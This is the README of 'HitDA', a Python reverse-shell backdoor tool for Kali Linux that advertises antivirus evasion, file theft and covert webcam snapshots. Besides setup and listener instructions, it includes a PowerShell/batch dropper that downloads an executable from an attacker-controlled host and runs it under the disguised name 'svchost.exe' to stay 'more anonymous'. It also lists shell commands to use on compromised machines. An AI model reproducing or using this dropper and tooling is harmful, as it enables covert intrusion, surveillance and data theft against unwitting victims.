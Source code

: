 # HitDA
HitDA is a Multi-Function backdoor based on TCP Reverse Shell write in Python3 for Kali Linux.
It is easy to bypass the **AV-Software**.In addition to the basic reverse shell function
, you can also use some powerful functions which are similar to Meterpreter.
Like **File Download/Upload**, **Webcam snapshot**, I will continue to add more function
 later.
 
## Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

## Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```
When you choose 0, you can choose the platform you want, and choose the script with webcam snap function
or not, the webcam function will increase the script size to about
**50MB**, otherwise, it's about **5MB**. 

You can also use the **powershell** 
script to automate download the script and execute, it will be more
anonymous and customizable. Like:
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use battoexe to generate a small exe file.

### Listening
Choose option 1 to start the listening mode, enter your listening host
and port, then wait the connection. When successfully connect to the cmd shell, you can use some command like

Download the specified remote file and save as local filename 
```
download remote_filename local_filename
```

Webcam snapshot and save as filename
```
webcam_snap filename
```

There are some common usages of cmdshell
```
cd path
mkdir dirname
echo "content" >> filename
del filename
tasklist
taskkill /PID pid /F
netstat
```
You can also use the powershell for more powerful command


